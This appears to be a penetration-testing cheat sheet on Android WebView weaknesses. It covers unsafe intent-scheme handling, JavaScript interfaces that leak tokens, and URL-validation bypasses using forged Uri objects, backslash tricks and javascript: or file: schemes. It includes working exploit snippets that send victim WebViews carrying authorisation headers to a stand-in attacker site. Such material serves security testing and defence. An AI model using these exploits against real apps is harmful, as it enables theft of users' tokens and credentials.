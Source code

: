 [WebView](https://developer.android.com/reference/android/webkit/WebView) is a View that displays web pages. WebView objects display web content as part of an activity layout, but lack some of the features of fully-developed browsers.

# Access arbitrary components

The Intent class allows developers to convert an intent to a string holding a URI representation of it with the [toUri(flags)](https://developer.android.com/reference/android/content/Intent#toUri%28int%29) method and create an intent from this URI with the [parseUri(stringUri, flags)](https://developer.android.com/reference/android/content/Intent#parseUri%28java.lang.String,%20int%29) method. An app can use this to parse a URL with the `intent` scheme into intent and launch an activity while handling the URL within the WebView. If the handling is not implemented correctly, you can access arbitrary components of the app.

{% raw %} {% embed url="https://0xn3va.gitbook.io/cheat-sheets/android-application/intent-vulnerabilities#access-arbitrary-components" %} {% endraw %}

Developers can override the [shouldOverrideUrlLoading()](https://developer.android.com/reference/android/webkit/WebViewClient#shouldOverrideUrlLoading%28android.webkit.WebView,%20android.webkit.WebResourceRequest%29) method of the WebViewClient class to handle all efforts to load a new link within WebView. The example of mishandling might look as follows:

```java
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    Uri uri = request.getUrl();
    if ("intent".equals(uri.getScheme())) {
        startActivity(Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME));
        return true;
    }
    return super.shouldOverrideUrlLoading(view, request);
}
```

This code adds a custom handler for URLs with the `intent` scheme that launch a new activity using the passed URL. You can exploit this mishandling by creating a WebView and redirecting it to a specially crafted `intent-scheme` URL:

```java
// Intent-scheme URL creation
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://attacker-website.com/");
String url = intent.toUri(Intent.URI_INTENT_SCHEME);
// "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fattacker-website.com%2F;end"
Log.d("d", url);
```

```java
// AuthWebViewActivity
webView.loadUrl(getIntent().getStringExtra("url"), getAuthHeaders());
```

```javascript
// Redirect within WebView
location.href = "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fattacker-website.com%2F;end";
```

However, there are several restrictions:

- Intent embedded `Parcelable` and `Serializable` objects cannot be converted to string and these objects will be ignored.
- The [Intent.parseUri(stringUri, flags)](https://developer.android.com/reference/android/content/Intent#parseUri%28java.lang.String,%20int%29) ignores the [Intent.FLAG_GRANT_READ_URI_PERMISSION](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_READ_URI_PERMISSION) and [Intent.FLAG_GRANT_WRITE_URI_PERMISSION](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_WRITE_URI_PERMISSION) flags by default. The parser leaves them only if the [Intent.URI_ALLOW_UNSAFE](https://developer.android.com/reference/android/content/Intent#URI_ALLOW_UNSAFE) flag is set.

    ```java
    startActivity(Intent.parseUri(url, Intent.URI_INTENT_SCHEME | Intent.URI_ALLOW_UNSAFE))
    ```

References:
- [Whitepaper – Attacking Android browsers via intent scheme URLs](https://www.mbsd.jp/Whitepaper/IntentScheme.pdf)

# addJavascriptInterface

[addJavascriptInterface](https://developer.android.com/reference/android/webkit/WebView#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29) method injects the supplied Java object into this WebView. The object is injected into all frames of the web page, including all the `iframes`, using the supplied name. This allows the Java object's methods to be accessed from JavaScript (the Java object's fields are not accessible).

This method can provide data to JavaScript or even allow JavaScript to controll the host application. For example, the following interface is leaking a user token:

```java
public class DefaultJavascriptInterface {
    Context context;

    public DefaultJavascriptInterface(Context c) {
        this.context = c;
    }

    @JavascriptInterface
    public getToken() {
        SharedPreferences sharedPref = context.getSharedPreferences(getString(
            R.string.preference_file_key), 
            Context.MODE_PRIVATE
        );
        return sharedPref.getString(getString(R.string.token_key), "")
    }
}
```

```java
public class DefaultActivity extends Activity {
    // ...

    public void loadWebView() {
        WebView webView = (WebView)findViewById(R.id.web_view);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.addJavascriptInterface(new DefaultJavascriptInterface(this), "DefaultJavascriptInterface")
        // ...
    }
}
```

```html
<script>
    alert("Token: " + DefaultJavascriptInterface.getToken());
</script>
```

References:
- [Report: [Grab Android/iOS] Insecure deeplink leads to sensitive information disclosure](https://hackerone.com/reports/401793)

# Bypass URL validation

## Abusing reflection

The [android.net.Uri](https://developer.android.com/reference/android/net/Uri) is an abstract class with a few internal subclasses, that allows you to build custom URI with arbitrary parts using `android.net.Uri$HierarchicalUri`.

Assume, an app implements the following validation:

```java
// AuthWebViewActivity 
Uri uri = getIntent().getData();
boolean isOurDomain = 
    "https".equals(uri.getScheme()) 
    && uri.getUserInfo() == null
    && "legitimate.com".equals(uri.getHost());
if (isOurDomain) {
    webView.load(uri.toString(), getAuthHeaders());
}
```

In this case, you can build a URL that will pass validation, but calling `uri.toString()` will return the attacker's website:

```java
Uri uri;
try {
    Class partClass = Class.forName("android.net.Uri$Part");
    Constructor partConstructor = partClass.getDeclaredConstructors()[0];
    partConstructor.setAccessible(true);

    Class pathPartClass = Class.forName("android.net.Uri$PathPart");
    Constructor pathPartConstructor = pathPartClass.getDeclaredConstructors()[0];
    pathPartConstructor.setAccessible(true);

    Class hierarchicalUriClass = Class.forName("android.net.Uri$HierarchicalUri");
    Constructor hierarchicalUriConstructor = hierarchicalUriClass.getDeclaredConstructors()[0];
    hierarchicalUriConstructor.setAccessible(true);

    Object authority = partConstructor.newInstance("legitimate.com", "legitimate.com");
    Object path = pathPartConstructor.newInstance("@attacker-website.com", "@attacker-website.com");
    uri = (Uri) hierarchicalUriConstructor.newInstance("https", authority, path, null, null);
    // uri.getScheme()   == https
    // uri.getUserInfo() == null
    // uri.getHost()     == legitimate.com
    // uri.toString()    == https://legitimate.com@attacker-website.com
}
catch (Exception e) {
    throw new RuntimeException(e);
}

Intent intent = new Intent();
intent.setData(uri);
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
startActivity(intent);
```

This is possible because a victim app does not parse URI itself and trusts the already parsed URI that it received from an untrusted source.

## Broken parser

The [android.net.Uri](https://developer.android.com/reference/android/net/Uri) does not recognize backslashes in the authority part (but `java.net.URI` throws an exception), this allows you to bypass a URL validation. For example, the vulnerable code can look as follows:

```java
Uri uri = Uri.parse(attackerControlledString);
if ("legitimate.com".equals(uri.getHost()) || uri.getHost().endsWith(".legitimate.com")) {
    webView.loadUrl(attackerControlledString, getAuthorizationHeaders());
    // or
    // webView.loadUrl(uri.toString());
}
```

In this case, you can bypass the restriction with backslashes:

```java
String url = "http://attacker-website.com\\\\@legitimate.com/path";
String host = Uri.parse(url).getHost();
// The "host" variable contains the "legitimate.com" value
Log.d("d", host);
// WebView loads the attacker-website.com
webView.loadUrl(url, getAuthorizationHeaders());
```

## Missing scheme validation

If an app does not validate the scheme value (but may validates the host one) you can try to abuse this with with `javascript` and `file` schemes URLs:

```http
javascript://legitimate.com/%0aalert(1)//

file://legitimate.com/sdcard/payload.html
```

# setWebContentsDebuggingEnabled

[setWebContentsDebuggingEnabled](https://developer.android.com/reference/android/webkit/WebView.html#setWebContentsDebuggingEnabled%28boolean%29) enables debugging of web contents (HTML/CSS/JavaScript) loaded into any WebViews of an application. This flag is used in order to facilitate debugging of web layouts and JavaScript code running inside WebViews.

{% raw %} {% hint style="info" %} {% endraw %}
`WebContentsDebugging` is not affected by the state of the `debuggable` flag in the application's manifest. 
{% raw %} {% endhint %} {% endraw %}

Enabling this flag allows you to execute arbitrary JavaScript code within any WebViews of an application.

References:
- [Remote debugging WebViews](https://developer.chrome.com/docs/devtools/remote-debugging/webviews/)

# References

- [Oversecured: Android Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
- [Golden techniques to bypass host validations in Android apps](https://hackerone.com/reports/431002)

